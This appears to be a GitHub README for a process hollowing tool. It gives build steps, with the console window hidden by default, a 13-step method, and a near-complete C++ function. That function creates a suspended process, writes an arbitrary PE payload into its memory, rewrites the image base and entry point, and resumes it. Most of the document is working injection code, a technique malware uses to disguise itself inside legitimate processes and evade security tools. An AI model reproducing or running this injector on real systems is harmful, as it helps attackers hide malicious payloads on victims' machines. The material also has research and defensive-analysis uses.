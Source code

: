 # Process Hollowing

## Building

```
> cmake .
```

To show(1)/hide(2) console window when running executable:

```
- Properties
  - Linker
    - System
      - SubSystem: 
	1. Console (/SUBSYSTEM:CONSOLE)
	2. Windows (/SUBSYSTEM:WINDOWS)
    - Advanced
      - Entry Point
	1. (BLANK)
	2. mainCRTStartup
```

Default: hidden

## Methodology

1. Create and suspend target process
2. Get thread context of target process
3. Get image base of target process
4. Unmap target process memory space (Optional)
5. Allocate temporary memory space for custom payload
6. Change image base for symbolic imports
7. Store payload in allocated temporary memory space
8. Ensure image base of process is the same
9. Overwrite target process memory space with payload
10. Free allocated temporary memory space
11. Overwrite image base in headers
12. Set new Entrypoint
13. Resume target process

```Cpp
/*
runPE32:
    targetPath - application where we want to inject
    payload - buffer with raw image of PE that we want to inject
    payload_size - size of the above

    desiredBase - address where we want to map the payload in the target memory; NULL if we don't care. 
        This address will be ignored if the payload has no relocations table, because then it must be mapped to it's original ImageBase.
    unmap_target - do we want to unmap the target? (we are not forced to do it if it doesn't disturb our chosen base)
*/
bool runPE32(LPWSTR targetPath, BYTE* payload, SIZE_T payload_size, ULONGLONG desiredBase = NULL, bool unmap_target = false)
{
    load_ntdll_functions();

    //Load payload:
    IMAGE_NT_HEADERS32* payload_nt_hdr32 = get_nt_hrds32(payload);
    const ULONGLONG oldImageBase = payload_nt_hdr32->OptionalHeader.ImageBase;
    SIZE_T payloadImageSize = payload_nt_hdr32->OptionalHeader.SizeOfImage;

    //create target process:
    create_new_process1(targetPath, pi);

    //get initial context of the target:
    memset(&context, 0, sizeof(WOW64_CONTEXT));
    context.ContextFlags = CONTEXT_INTEGER;
    Wow64GetThreadContext(pi.hThread, &context);

    //get image base of the target:
    DWORD PEB_addr = context.Ebx;
    ReadProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &targetImageBase, sizeof(DWORD), NULL);

    //try to allocate space that will be the most suitable for the payload:
    LPVOID remoteAddress = VirtualAllocEx(pi.hProcess, (LPVOID)desiredBase, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //change the image base saved in headers - this is very important for loading imports:
    payload_nt_hdr32->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)remoteAddress);

    //Prepare the payload image in the local memory, then copy it into the space reserved in the target process
    LPVOID localCopyAddress = VirtualAlloc(NULL, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    copy_pe_to_virtual_l(payload, payload_size, localCopyAddress);

    //if the base address of the payload changed, we need to apply relocations:
    if ((ULONGLONG)remoteAddress != oldImageBase) {
        apply_relocations((ULONGLONG)remoteAddress, oldImageBase, localCopyAddress);
    }

    SIZE_T written = 0;
    // paste the local copy of the prepared image into the reserved space inside the remote process:
    WriteProcessMemory(pi.hProcess, remoteAddress, localCopyAddress, payloadImageSize, &written);

    //free the localy allocated copy
    VirtualFree(localCopyAddress, payloadImageSize, MEM_FREE);

    //overwrite ImageBase stored in PEB
    DWORD remoteAddr32b = static_cast<DWORD>((ULONGLONG)remoteAddress);
    WriteProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &remoteAddr32b, sizeof(DWORD), &written);

    //overwrite context: set new Entry Point
    DWORD newEP = static_cast<DWORD>((ULONGLONG)remoteAddress + payload_nt_hdr32->OptionalHeader.AddressOfEntryPoint);
    context.Eax = newEP;
    Wow64SetThreadContext(pi.hThread, &context);

    //start the injected:
    printf("--\n");
    ResumeThread(pi.hThread);
    return true;
}
```

## Reference

- https://github.com/hasherezade/demos/tree/master/run_pe
